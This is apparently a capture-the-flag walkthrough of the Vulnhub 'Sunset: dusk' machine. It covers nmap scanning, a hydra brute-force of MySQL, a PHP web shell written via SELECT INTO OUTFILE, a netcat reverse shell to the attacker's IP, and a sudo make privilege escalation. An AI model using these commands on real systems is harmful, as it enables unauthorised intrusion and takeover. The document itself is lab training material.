 # Sunset:dusk ~Vulnhub Walkthrough
Sunset: dusk is another CTF challenge given by vulnhub and the level difficulty is set according to beginners and credit goes to whitecr0wz.



## Scanning

nmap -p- target ip (full port scan)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled.png)

nmap -sV -A 192.168.122.150 (Service version scanning)

```jsx
root@kali:~# nmap -sV -A 192.168.122.150
Starting Nmap 7.80SVN ( https://nmap.org ) at 2020-08-10 13:10 EDT
Nmap scan report for 192.168.122.155
Host is up (0.00094s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     pyftpdlib 1.5.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.122.155:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 b5:ff:69:2a:03:fd:6d:04:ed:2a:06:aa:bf:b2:6a:7c (RSA)
|   256 0b:6f:20:d6:7c:6c:84:be:d8:40:61:69:a2:c6:e8:8a (ECDSA)
|_  256 85:ff:47:d9:92:50:cb:f7:44:6c:b4:f4:5c:e9:1c:ed (ED25519)
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: dusk.dusk, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING, 
| ssl-cert: Subject: commonName=dusk.dusk
| Subject Alternative Name: DNS:dusk.dusk
| Not valid before: 2019-11-27T21:09:14
|_Not valid after:  2029-11-24T21:09:14
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
3306/tcp open  mysql   MySQL 5.5.5-10.3.18-MariaDB-0+deb10u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.3.18-MariaDB-0+deb10u1
|   Thread ID: 38
|   Capabilities flags: 63486
|   Some Capabilities: SupportsTransactions, SupportsLoadDataLocal, FoundRows, Support41Auth, Speaks41ProtocolOld, ConnectWithDatabase, Speaks41ProtocolNew, ODBCClient, InteractiveClient, IgnoreSigpipes, IgnoreSpaceBeforeParenthesis, SupportsCompression, DontAllowDatabaseTableColumn, LongColumnFlag, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: j!]4,{MN|I8xwk5ct<o9
|_  Auth Plugin Name: mysql_native_password
8080/tcp open  http    PHP cli server 5.5 or later (PHP 7.3.11-1)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:3D:E7:3F (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host:  dusk.dusk; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.94 ms 192.168.122.155

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.57 seconds
root@kali:~#
```

## Enumeration

Open ip in browser

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%201.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%201.png)

[http://192.168.122.150:8080](http://192.168.122.150:8080) 

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%202.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%202.png)

Trying to login through ssh, ftp and smtp port.

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%203.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%203.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%204.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%204.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%205.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%205.png)

Using hydra to bruteforce password of mysql 

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%206.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%206.png)

Found password **password**

**mysql -h 192.168.122.150 -u root -p**

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%207.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%207.png)

## Exploitation

Injecting RCE payload 

select "<?php echo system($_GET['cmd']); ?>" into outfile "/var/tmp/backdoor.php";

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%208.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%208.png)

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%209.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%209.png)

### Reverse shell

[http://192.168.122.150:8080/backdoor.php?cmd=](http://192.168.122.150:8080/backdoor.php?cmd=)nc -e /bin/bash 192.168.122.148 1234

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2010.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2010.png)

Side by side start nc listener on 1234 port

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2011.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2011.png)

***Got shell of www-data

cd /home 

cd /dusk 

ls -al

cat user.txt

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2012.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2012.png)

sudo -l 

user www-data can run /usr/bin/make with privilege of dusk

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2013.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2013.png)

### Privilege escalation (dusk)

COMMAND='/bin/sh' 

sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"

id

![Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2014.png](Sunset%20Dusk%20~Vulnhub%20Walkthrough%2073c8265aad554c15a57c73cfc5c941cd/Untitled%2014.png)

***Got shell of dusk user
